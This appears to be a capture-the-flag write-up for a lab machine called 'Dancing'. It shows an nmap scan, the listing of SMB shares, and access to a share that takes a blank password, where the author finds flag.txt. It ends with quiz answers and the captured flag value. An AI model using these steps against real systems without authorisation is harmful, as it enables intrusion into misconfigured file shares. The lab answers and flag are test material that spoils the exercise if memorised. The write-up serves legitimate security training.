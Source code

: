 ## Dancing

First try to see what ports are open or services are running: `sudo nmap -sV 10.129.1.12`

```
PORT    	STATE 		SERVICE       VERSION
135/tcp 	open  		msrpc         Microsoft Windows RPC
139/tcp 	open  		netbios-ssn   Microsoft Windows netbios-ssn
445/tcp 	open  		microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

List possible SMB shares, without using a password: `smbclient -L 10.129.1.12`              

Password for [WORKGROUP\sebastiaan]:
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
WorkShares      Disk
```

Connect to SMB share that is misconfigured, so it can be done without password: `smbclient \\\\10.129.1.12\\WORKSHARES` 

Password for [WORKGROUP\sebastiaan]:

List directory's in the SMB share: `smb: \> ls`
```
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021
```

Traverse directory's, list files and found the flag.txt file.
```
smb: \> cd james.p
smb: \james.p\> ls
```
```
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021
```

## Screenshots

![pwnd Dancing.png](..%2Fmedia%2Fpwnd%20Dancing.png)

## Quiz Questions

What does the 3-letter acronym SMB stand for? 
- Server Message Block

What port does SMB use to operate at? 
- 445

What is the service name for port 445 that came up in our Nmap scan? 
- microsoft-ds

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing? 
- -L

How many shares are there on Dancing? 
- 4

What is the name of the share we are able to access in the end with a blank password? 
- Workshares

What is the command we can use within the SMB shell to download the files we find? 
- get

Root flag
- 5f61c10dffbc77a704d76016a22f1664 
